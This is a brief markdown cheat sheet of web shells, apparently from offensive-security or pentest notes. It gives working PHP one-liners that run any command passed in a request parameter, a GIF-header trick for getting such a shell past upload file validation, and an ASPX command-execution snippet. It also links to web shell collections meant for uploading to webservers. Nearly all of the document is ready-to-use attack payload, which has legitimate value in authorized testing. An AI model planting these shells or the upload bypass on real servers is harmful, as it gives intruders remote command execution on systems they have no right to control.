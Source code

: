 # Web Shells

## PHP

### Interactive PHP web shell
[P0wnyShell](https://github.com/flozz/p0wny-shell)

### Simple PHP RCE

```php
<?php
system($_GET['cmd']);
?>
```

Using REQUEST we can use a POST. (POST use less bad characters!)

```php
<?php system($_REQUEST['cmd']); ?>
```

Bypass file validation with GIF header:

```php
GIF8;<?php system($_REQUEST['cmd']); ?>
```

## ASPX

```python
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

## Collections

A collection of webshells to use/upload to webservers:  
[https://github.com/tennc/webshell](https://github.com/tennc/webshell)  
[https://github.com/xl7dev/WebShell](https://github.com/xl7dev/WebShell)